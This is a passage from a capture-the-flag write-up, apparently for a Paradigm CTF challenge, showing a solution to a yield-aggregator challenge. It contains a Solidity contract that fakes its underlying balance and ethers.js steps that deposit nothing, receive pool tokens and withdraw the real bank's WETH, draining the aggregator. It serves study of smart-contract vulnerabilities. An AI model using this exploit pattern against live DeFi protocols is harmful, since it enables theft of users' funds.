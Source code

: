 ```javascript
contract DodgyAfBank is Protocol {

    ERC20Like public override underlying = ERC20Like(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    mapping (address => uint256) public balanceOf;
    uint256 public totalSupply;
    uint256 public fakeUnderlyingBal;

    function mint(uint256 amount) public override {
        
        require(underlying.transferFrom(msg.sender, address(this), amount));
        balanceOf[msg.sender] += amount;
        totalSupply += amount;
        fakeUnderlyingBal += 50 ether;
        //require(1 == 2, "sorry, there's load shedding");
    }

    function balanceUnderlying() public override view returns (uint256) {
        return fakeUnderlyingBal;
    }
    
    function burn(uint256 amount) public override {
        balanceOf[msg.sender] -= amount;
        totalSupply -= amount;
        require(underlying.transfer(msg.sender, amount));
    }

    function rate() public override view returns (uint256) {
        return 1;
    }
}
```

Calling deposit with no WETH gives us some pool tokens, which we can use to withdraw the balance of the bank and aggregator:


```javascript
//deploy a dodgy bank
const DodgyAfBank = await ethers.getContractFactory("DodgyAfBank");
let dab = await DodgyAfBank.deploy();
await dab.deployed();

//deposit 0 WETH and get some pool tokens
await yield_aggregator.deposit(dab.address, ["0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2"], [ethers.utils.parseEther("0")]);

console.log("I have this many pool tokens now: " + await yield_aggregator.getPoolTokens());

//use the pool tokens to withdraw the MiniBank's WETH
await yield_aggregator.withdraw(bankaddr, ["0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2"], [ethers.utils.parseEther("50")]);
```   
This drains the aggregator and the Minibank, which solves the challenge. 


---
Really big thanks to [@paradigmctf](https://twitter.com/paradigm_ctf?lang=en) for the great CTF! There were lots of cool challenges, and there's definitely lots more to learn from the unsolved chals. Looking forward to the next one! :)